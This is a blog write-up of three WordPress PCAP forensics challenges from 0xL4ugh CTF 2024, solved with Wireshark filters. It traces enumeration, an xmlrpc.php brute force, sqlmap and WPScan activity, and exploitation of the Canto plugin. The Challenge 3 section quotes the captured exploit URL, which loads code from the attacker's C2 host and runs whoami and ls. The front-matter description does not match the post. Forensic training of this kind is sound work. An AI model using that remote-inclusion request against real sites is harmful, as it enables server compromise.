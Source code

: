 ```yaml
---
layout: post
author: kranthikvrm
title: CTF Writeup - 0xL4ugh CTF 2024 (PCAP Analysis)
description: In this blog post, I am sharing my experiences from my first year at RGUKT Nuzvid, where I experienced new faces, challenges, and exciting opportunities on my journey towards becoming an engineer.
date: 2024-02-13 07:43:00 +0800
categories: [CTF Writeups]
tags: [CTF, CTF Writeups]
img_path: /images/0xL4ughCTF
image:
  path: 0xL_logo.png
pin: true
---
```


Hello buddy, I am Kranthi Kumar, a cybersecurity enthusiast. Recently I participated in the 0xL4ugh CTF, so I am writing how I solved these challenges:

## Challenge 1: WordPress - 1 [Easy]
```
Our WordPress site has experienced a security breach, and the precise method of compromise remains undetermined at present. We need your help to investigate what actually happened.

Q1. There were two attackers attempting to compromise our environment. What is the IP address of the victim, and what is the IP address of the first attacker?

Q2. What are the versions of the Apache and PHP servers deployed in our environment?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{IP1_IP2_apache1.2.3_php1.2.3}(no spaces)
```
<b>My approach:</b>

They gave us a wordpress.pcap file, so I started my analysis using Wireshark.

First things first, I filtered out `http.request traffic` to get a lead. I observed that the IP `192.168.204.132` tried accessing `/wordpress/robots.txt` and `/wordpress/xmlrpc.php`, and `GET /wordpress/wp-content/uploads/` paths. It is very clear that this is the attacker's IP.
![IP addresses found](1.png)

So, Q1 victim IP: 192.168.204.128  and attacker IP: 192.168.204.132

Following the HTTP stream gave us the server and php version information.

![server version found](2.png)

So the flag is `0xL4ugh{192.168.204.128_192.168.204.132_apache2.4.58_php8.2.12}`


## Challenge 2: WordPress - 2 [Medium]
```

Q1. During enumeration, the attacker tried to identify users on the site. List all the users that the attacker enumerated. Separate them with a colon. Sort them alphabetically.

Q2. After enumeration, a brute force attack was launched against all users. The attacker successfully gained access to one of the accounts. What are the username and password for that account, and what is the name of the page used for the brute force attack?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{username1:username2_username:password_pageName.ext}
```

<b>My approach:</b>

As we already know the attacker IP, I filtered the traffic with the "POST" method as it is used to log in and the source IP as the attacker IP.

`ip.src == 192.168.204.132 && http.request.method == POST`

I found three login attempts and also the three usernames and passwords.
![login attempts](22.1.png)
![login attempts](22.2.png)
![login attempts](22.3.png)

So it's `a1l4m:demomorgan:not7amoksha` in alphabetical order.

Moving forward to Q2, to find out the brute force attack, I filtered traffic so that all HTTP traffic from and to `192.168.204.132` will be visible.

`((ip.src == 192.168.204.132) || (ip.dst == 192.168.204.132)) && http`

![brute force attempts](3.png)

I found 5 POST requests to the `/wordpress/xmlrpc.php` path. Following the HTTP stream revealed that the attacker tried the "wp.getUsersBlogs" command with two parameters to extract users.
![brute force attempts -1](3.1.png)

So for sure, the second parameter is the password that the attacker used. I saw too many failed attempts. I tried to filter only the successful attempts using

`(ip.dst == 192.168.204.132) && !(xml.cdata == "403") && (_ws.col.protocol == "HTTP/XML")`

The above filter or query, (ip.dst == 192.168.204.132): This part filters packets where the destination IP address is 192.168.204.132 and !(xml.cdata == "403") this part selects packets where the XML data field (xml.cdata) is not equal to "403". So, it excludes packets containing XML data equal to "403" and (_ws.col.protocol == "HTTP/XML"), this part filters packets where the protocol in the Wireshark column is "HTTP/XML".

I analyzed all the filtered packets, and the packet 147357 response says that the login successful. I found it by following the HTTP stream.
![brute force attempts -2](3.2.png)

So the username:password is `demomorgan:demomorgan`

And I know that the brute forced web page is `xmlrpc.php`
![brute force attempts -3](3.3.png)
With the all the information, I got the final flag, it is `0xL4ugh{a1l4m:demomorgan:not7amoksha_demomorgan:demomorgan_xmlrpc.php}`

## Challenge 3: WordPress - 3 [Hard]
```
Q1. Mention the names of the tools that the attacker used in the attack. (in alphabetical order)

Q2. There was a vulnerable plugin that the attacker exploited. What is the C2 server of the attacker, and what is the name of the plugin?

Q3. What is the version of the vulnerable plugin, and what is the CVE number associated with that plugin?

Flag Format: 0xL4ugh{A1_A2_A3}

Example: 0xL4ugh{tool1_tool2_C2_PluginName_1.2.3_CVE--}

```

<b>My approach:</b>

To solve Q1, I have to find the tools that the attacker used for the attack. Most of the times, checking the user-agent will give us this data. So let's check the HTTP traffic again.

With `(ip.src == 192.168.204.132) && http.request` filter

![user agent checking](4.1.png)

User-Agent: `WPScan v3.8.25 (https://wpscan.com/wordpress-security-scanner)`

Attacker tried SQL Injection attack using sqlmap. 
User-Agent: `sqlmap/1.7.12#stable (https://sqlmap.org)`
![user agent checking](4.png)
Sorting them in alphabetical order: `sqlmap_WPScan`

Moving forward to Q2, I have to find the vulnerable plugin that the attacker exploited.

so I used this filter `http contains "plugins"` and found the below leads.

![vulnerable plugin](4.2.png)

URL: `http://192.168.204.128/wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami` and `cmd=ls`

I found that a plugin named "Canto" along with a command `whoami` and `ls` at the end of the URL. So this is the vulnerable plugin.

With the information in hand, I can say the answer for Q2 is `172.26.211.155_canto`.

Moving to Q3, and after some analysis, nothing was there related to plugin version and CVE. So I did a Google search, and the first hit shows that Canto 3.0.4 is vulnerable to CVE-2023-3452.
![vulnerable plugin details](4.3.png)
With the information gathered, the answer to Q3 is `3.0.4_CVE-2023-3452`. So the final flag is `0xL4ugh{SQLMap_WPScan_172.26.211.155_canto_3.0.4_CVE-2023-3452}`. 

Thank you for reading buddy ❤️
